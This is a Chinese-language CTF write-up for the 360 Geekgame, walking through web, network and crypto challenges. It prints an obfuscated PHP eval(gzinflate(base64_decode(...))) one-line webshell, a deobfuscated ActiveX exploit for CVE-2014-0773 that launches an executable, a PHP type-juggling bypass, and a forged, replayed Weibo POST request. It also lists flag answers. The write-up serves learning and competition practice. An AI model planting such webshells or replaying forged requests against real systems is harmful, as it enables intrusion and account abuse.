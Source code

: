 ```yaml
---
layout: post
title: 360 Geekgame Writeup
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### WEB1

就一个大苹果的图，Format Analysis后得到一串base64:`ZW1lbS4uLiAvY3RmXzM2MF9mbGFnv`

<img src="http://7xiw31.com1.z0.glb.clouddn.com/6ehrtsgbfdx.png">

解密后为`emem... /ctf_360_flag`，是一个目录，图为被咬一口的苹果，osx默认下每个目录下都会存在一个.DS_Store文件来保存文件夹的显示属性，请求`/ctf_360_flag/.DS_Store`及得到flag：

	flag: 61cda90b0c742a90458c4ed43b328bcc

#### WEB3
根据图片Format Analysis后得到一大串摩斯密码：

	--. .. ..-. - --.. -- --. .- ;..<..- -.. .-- . .... .--. $.- = "----- .-.-.- .---- " ;$-... = $_--. . - [.----. -... . ----. ] ;.. ..- . ($-.. . -.-. -- = .- ---. .- ---. ){ .. ..-. ( .. ... _.- .- . .-. .- -.-- ($-... )){ . -.-. .. .. --- "-. - -- -.- . -.- - -.-.- - "; . -..- .. - ; }. .- .. ... . .. ..-. (- .-.-- . . ... _-. ..- -- . .-. .. -.-. ($-... )){ $-.-. = (.. -. - )(($.- + $-... ) * .- --- --- -- ); .. ..-. ($-.-. == "-- -.. " & & $-... [.---- ----- ] == ..- . .- . -.. ... . ){ . -. -. .... --- "..-. . -.. .- --. "; }. .-.. ... . { . -.-. .... -- - "-. --- - .- . - .-- -.- .-- "; . -. .- .. - ; } }. .-. . ... . { . - .-. ... . --- "-. -- - -.- . -.-- -.-.-- "; }}. .-. . ... . { . -.-. .... - -- "-. --- -.- . -.-- -. -.-- "; }..--.. >

<img src="http://7xiw31.com1.z0.glb.clouddn.com/76tyhfg.png">

解密得到一段php代码：

	<?php
    $a= "0.1";
    $b= $_GET['b'];
    if($b! = '' )
    {
        if(is_array  ($b))
        {
            echo "nokey!";
            exit;
        }
        else if(!is_numeric ($b ))
        {
            $c   = (int)(($a + $b  ) * 10 );
            if  ($c   == "8" && $b  [10 ] == false )
            {
                echo   "flag ";
            }
            else
            {
                echo  "nokey ";
                exit  ;
            }
        }
        else {echo  "nokey ";}
    }
    else {echo  "no  ";}
	?>

这段代码表示GET请求的参数b符合要求的话就能得到flag，首先$b不能为数组，并且还不能为数字，继续往下看，分析写在下面。

	$c = (int)(($a + $b) * 10)
	$c == "8"
	转换为公式：
	int((0.1+$b)*10)==8
	因为要(int)所以$b>0.7 & $b<0.8 = 0.71
	&& $b[10] == false转换为公式：
	判断$b第11位不能为true，
	$b="0.711111111";
	var_dump($b[10] == TRUE);为true
	$b="0.7100000000";
	var_dump($b[10] == TRUE);为false
	或者不构造那么长也就是后面为空的话也为false

往回看，$b既然不能为数字的话那么也没判断是否为字符串，而且在if里判断的是类型转换后赋值给的$c，所以请求`web3?b=0.71a`及得到flag:

	flag: 4e07fbad6ff26d9a3c9f198277866c66

#### NET1
>要求："根据所给的pcap数据包进行分析，伪造地点`360大厦`和`iphone 6 plus`手机，发送任意微博内容"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;下载到pcap包后筛选下，请求方式为POST并且http内容中包含weibo字样的数据包。

	http.request.method=="POST" && http contains "weibo"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;翻到第7305个数据包为发微博的request包，Follow TCP Stream。

<img src="http://7xiw31.com1.z0.glb.clouddn.com/tydhfgbxcv.png">

向下翻，poiid为地址

<img src="http://7xiw31.com1.z0.glb.clouddn.com/65i7rtuydh.png">

c为手机类型

<img src="http://7xiw31.com1.z0.glb.clouddn.com/8irujtydhfg.png">

content为微博内容

<img src="http://7xiw31.com1.z0.glb.clouddn.com/4aresgdfxc.png">

ua为User-Agent

<img src="http://7xiw31.com1.z0.glb.clouddn.com/7uytdhfgx.png">

根据这些字段就可以更改相应的字段为要求：

	ua=iPhone7,1__weibo__5.2.8__iphone__os8.3&c=iphone&poiid=B2094753D56EA0FE419C

然后重放request，获得flag:

	flag：195b8ef7140a6a09aa4e207e20f6304c

#### NET2
>请分析数据包并给出数据包中利用漏洞的CVE编号。（CVE编号即为过关密码，格式：CVE-XXXX-XXXX）

<img src="http://7xiw31.com1.z0.glb.clouddn.com/8irjtydfg.png">

是一段js混淆，进行其反混淆

	< html >
	< body >
	< object id = "mfHQh" classid = "clsid:5C2A52BD-2250-4F6B-A4D2-D1D00FCD748C">
		< script type = "text/javascript" >
	   mfHQh[CreateProcess]("C:\windows\explorer.exe \\bwvbprt.exe", 0, 1);
	<  / script >
	<  / body >

搜索了下，flag为`CVE-2014-0773`

<img src="http://7xiw31.com1.z0.glb.clouddn.com/eytdfg.png">

#### Encrypt2
>小明在服务器上发现了一个奇怪的php文件，初步断定为黑客留下的一句话后门，请分析php文件，找出一句话后门的密码。（密码即为Flag）


	<?php
	eval(gzinflate(base64_decode("pZLdSsNAEIXvBd+hTmOzMXTbFC3UGhtFEANWlLZES5OgvauoIFho2jy7s7PJhMSI
	F5Kbb2fPzs+Z7O8ZiYAmhLAFS9bQzhUQIboUPECKiUQDMSFMkYZIZt+U5nFkYijB0Kh0KfCcp+5wlh+6YaO2H9VFbW2BNK
	8U2iJJoiOk9Pek4q/ZBTwG481T4HeD3mC9vH79en67fb+fjScPM38aOMvL6erEn6xePm+uLj7u1i669I9qAucL4ZSDesQWC
	9WwHlGxkZRpwW9t1ikrDCRwAE87dtvm7EphlRQd3taC6AwpIjJ4A4XFkhcQ81uhbZcw6EN20a67mHPHxX8Qc+YQP7vyvxQJ
	IHNBa9usUBMcck5d1kNqEVmZl9CDkmNNnsLIFV3IKnsVRT4OOCQJdRNq76Pzbw==")));
	?>

这段代码进行base64+gzinflate加密，var_dump下看看执行结果：

<img src="http://7xiw31.com1.z0.glb.clouddn.com/67jtydgbfvc.png">

获得了一串base64密文`YXNzZXJ0X29wdGlvbnMoQVNTRVJUX1dBUk5JTkcsIDApOw==`，解码得到`assert_options(ASSERT_WARNING, 0);`这个函数设置ASSERT_WARNING为0，即为不回显warning，删掉这段base64加密后的代码执行下。

<img src="http://7xiw31.com1.z0.glb.clouddn.com/6i7jrtyd.png">

执行后由此看出是一段一句话木马，flag即为POST接受的参数：

	flag：p4n9_z1_zh3n9_j1u_Sh1_J13
